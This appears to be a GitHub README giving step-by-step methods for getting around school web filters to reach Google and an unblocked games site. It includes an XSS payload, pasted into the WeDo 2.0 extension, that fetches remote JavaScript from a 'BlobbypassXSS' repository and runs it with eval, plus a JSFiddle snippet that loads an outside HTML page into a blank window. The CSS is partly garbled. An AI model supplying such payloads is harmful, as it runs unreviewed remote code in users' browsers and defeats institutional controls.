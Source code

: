 # stuff
A lot of this will be for how to get certain unblocked sites or for google and some might be unblock methods that will be found from 3hko/ext-remover that may work to this day 
sorry for bad explaining

# how to get unblocked google using WeDo 2.0
credit to @BlobbyBoi for this method

### Requirement
<b> access to Webstore
1. Search up WeDo 2.0 or WeDo2.0
2. Install extention
3. when its finished intalling create a new project
4. once you are in your project click on the the pencil on the top of your screen then the green document
5. once you clicked the green document copy this code
 ```js
 <img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
6. paste the code into the box and now you can browse google without being it being blocked!

# How to get gn-math (unblocked site with web ported games that can be downloaded ) using JSfiddle 
### Requirements a working brain
1. head to JSfiddle.net
2. Now in each of the 3 boxes put each code below in order from HTML CSS and Javascript 
   
  ```HTML
<a id="button" class="button" >Launch</a>
```
```CSS
html,  body {

      0;

      padding: 0;

      height: 100%;

    }

 

    .button {

      display: flex;

      align-items: center;

      justify-content: center;

      width: 100vw;

      height: 100vh;

      background-color: #000000;

      color: #ffffff !important;

      Arial, sans-serif;

      font-size: 24px;

      font-weight: bold;

      cursor: pointer;

      text-decoration: none !important;

      transition: background-color 0.3s, transform 0.2s;

    }

 

    .button:hover {

      background-color: #4a148c !important;

    }
```
```js
document.addEventListener('DOMContentLoaded', function() {

      const button = document.getElementById('button');

      button.addEventListener('click', launch);

    });

 

    function launch() {

      try {

        fetch("https://cdn.jsdelivr.net/gh/gn-math/gn-math-DONTDMCA@main/singlefile.html?t="+Date.now())

          .then(response => response.text())

          .then(text => {

            const newWin = window.open("about:blank", "_blank");

            if (newWin) {

              newWin.document.open();

              newWin.document.write(text);

              newWin.document.close();

            }

          });

      } catch (error) {

        console.error('error:', error);

      }

    }
```
3. Once you are done Pasting all these codes into the boxes click Run then in the bottom right box click launch now you have gn-math!
   






